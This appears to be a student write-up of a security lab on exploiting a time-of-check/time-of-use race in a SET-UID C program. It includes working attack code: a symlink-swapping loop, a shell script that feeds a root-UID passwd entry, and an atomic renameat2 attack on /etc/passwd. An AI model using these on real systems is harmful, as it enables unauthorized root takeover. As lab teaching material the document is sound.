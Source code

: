 ## Task 2: Launching the Race Condition Attack

The objective for this task is to gain root privilege by exploiting the race condition vulnerability in this **SET-UID program**:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main()
{
    char* fn = "/tmp/XYZ";
    char buffer[60];
    FILE* fp;

    /* get user input */
    scanf("%50s", buffer);

    if (!access(fn, W_OK)) {
        fp = fopen(fn, "a+");
        if (!fp) {
            perror("Open failed");
            exit(1);
        }
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    } else {
        printf("No permission \n");
    }

    return 0;
}

```

The critical factor in making this attack work is to point */tmp/XYZ* to the password file between the *access* and the *fopen* calls.

### Task 2.A: Simulating a Slow Machine


- In this first attempt we will exploit the race condition vulnerability by simulating a slow machine. We can do that by adding this instruction:

```
sleep(10)
```


vul.c will look like this:

```
if (!access(fn, W_OK)) {
    sleep(10);
    fp = fopen(fn, "a+");
...
```

This will give us a 10 second window to manually do something that results on the program adding a root account to the system.

To achieve this we will create a */tmp/XYZ* file, run the program with the input that we need and link the file created to the password file:


![execute vulp](Screenshots/executeVulp.png)

![create link](Screenshots/symbLink.png)

After this we successfully obtained root privilege:

![result](Screenshots/resultA.png)

### Task 2.B: The Real Attack

In this task the objective is to launch the real attack without "cheating", in this case without slowing down the vulnerable program.

To achieve this we need to write an attack program to run in parallel to the target program and hope to hit the race condition window once.

Our C attack program that removes and adds a symbolic link pointing to the */etc/passwd* file from the */tmp/XYZ* file looks like this:

```
#include <unistd.h>
int main() {

	/*
	Run Infinite loop to try to catch the race condition 
	window
	*/
	while(1) {
		unlink("/tmp/XYZ");
		symlink("/etc/passwd","/tmp/XYZ");
	}
	
	
	return 0;
	
}
```

To make this a successful attack we need to run the vulnerable program many times.

So according to the lab guide we may run the following shell script to run *vulp* in a loop, with the input that we want, in this case *test:U6aMy0wojraho:0:0:test:/root:/bin/bash* given by the *echo* command.

```
#!/bin/bash
CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]
do
    echo "test:U6aMy0wojraho:0:0:test:/root:/bin/bash" | ./vulp
    new=$($CHECK_FILE)
done
echo "STOP... The passwd file has been changed"
```
We can now run both programs and monitor our results from the attack and see if it is successful.

After some attempts at executing we finally reached the objective and achieved root privilege:

![result](Screenshots/resultB.png)

It took some time to reach our goal since we had to manually remove */tmp/XYZ* file all the previous attempts because it gained root ownership and we couldn't execute the attack successfully that way.

### Task 2.C: An Improved Attack Method

In the previous task most of our attempts didn't work because our attack program, running with no root privilege could not make changes to the root owned */tmp/XYZ* file.

Using *unlink()* and *symlink()* approach gave us a race condition in our attack program which was exploited by the target program.

We can solve this issue by making *unlink()* and *symlink()* atomic.

According to the lab guide now our attack program should look like this:

```
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
int main() {
	unsigned int flags = RENAME_EXCHANGE;
	unlink("/tmp/XYZ"); symlink("/dev/null", "/tmp/XYZ");
	unlink("/tmp/ABC"); symlink("/etc/passwd", "/tmp/ABC");
	while(1) {
		renameat2(0, "/tmp/XYZ", 0, "/tmp/ABC", flags);
	}
	return 0;
}
```

After performing this time the attack with this new strategy, we can see that it succeeds without problems:

![result](Screenshots/resultC.png)













